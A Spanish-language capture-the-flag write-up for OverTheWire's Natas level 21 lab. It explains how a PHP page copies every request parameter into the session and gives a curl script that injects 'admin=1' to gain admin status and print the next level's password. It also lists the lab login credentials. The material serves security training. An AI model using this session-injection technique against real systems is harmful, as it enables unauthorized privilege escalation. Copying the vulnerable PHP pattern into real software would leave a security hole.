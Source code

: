 ```yaml
---
title: Natas-21
published: true
---
```


```
Url del reto: http://natas20.natas.labs.overthewire.org/index.php
login:natas21
 pass:IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

En este reto tendremos dos códigos php a estudiar. El de la pág principal que es el código que hemos encontrado en anteriores retos


```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
session_start();
print_credentials();

?>
```

Y el código que tenemos que estudiar es en la url http://natas21-experimenter.natas.labs.overthewire.org/

```php

<?php

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>"; 

?>


Estudiando el código nos tenemos que centrar en el siguiente bloque de código

```php
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

Si existe $_REQUEST guardará el valor de estas variables en $_SESSION. Tenemos restringido las variables por POST, solo podemos usar:

```php
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
```

Para que se nos guarden en $_SESSION las variables que queremos, tenemos que enviar en la misma petición la parte POST y GET donde inyectaremos variables

Se puede realizar esto en la parte de inspección de firefox u otro navegador. Yo he decidido finalmente realizar estas peticiones por bash mediante curl

```bash

#!/bin/bash

# seteamos urls
url_exp='http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug&admin=1'
url_main='http://natas21.natas.labs.overthewire.org/index.php'

echo "<br>"
echo "<br>"
echo 'ENTRANDO EN: natas21.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

#Primero la cookie url_main http://natas21.natas.labs.overthewire.org/
curl --cookie-jar cookie.txt -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ $url_main
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

echo "<br>"
echo "<br>"
echo 'ENTRANDO EN: natas21-experimenter.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

#Realizamos conexión, arrastrando la cookie a natas21-experimenter.natas.labs.overthewire.org
#En esta petición enviamos los parametros POST y los GET (estan en la variable $url_exp /index.php?debug&admin=1
curl --cookie "PHPSESSID=$cookie" --referer $url_main $url_exp -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ -X POST -F align=center -F fontsize=100% -F bgcolor=yellow -F submit=Update


echo "<br>"
echo "<br>"
echo 'ENTRANDO DE NUEVO: natas21.natas.labs.overthewire.org'
echo "<br>"
echo "<br>"

# vamos de nuevo a la pagina principal arrastrando la cookie y las variables de _SESSION de natas21-experimenter
curl --cookie "PHPSESSID=$cookie" --referer $url_exp $url_main -s -u natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ

```

Ejecuto el código en bash

```
admin1@php:~$ bash bash-natas21.bash | html2text 


ENTRANDO EN: natas21.natas.labs.overthewire.org

****** natas21 ******
Note: this website is colocated with http://natas21-
experimenter.natas.labs.overthewire.org
You are logged in as a regular user. Login as an admin to retrieve credentials
for natas22.
View_sourcecode


ENTRANDO EN: natas21-experimenter.natas.labs.overthewire.org

****** natas21 - CSS style experimenter ******
Note: this website is colocated with http://natas21.natas.labs.overthewire.org
[DEBUG] Session contents:
Array ( [debug] => [admin] => 1 [align] => center [fontsize] => 100% [bgcolor]
=> yellow [submit] => Update )
Example:
Hello world!
Change example values here:
align: [center              ]
fontsize: [100%                ]
bgcolor: [yellow              ]
[Update]
View_sourcecode


ENTRANDO DE NUEVO: natas21.natas.labs.overthewire.org


****** natas21 ******
Note: this website is colocated with http://natas21-
experimenter.natas.labs.overthewire.org
You are an admin. The credentials for the next level are:
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
View_sourcecode
```


Las credenciales del siguiente reto:

```
Username: natas22
Password: chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```

[Volver al archivo](archive)

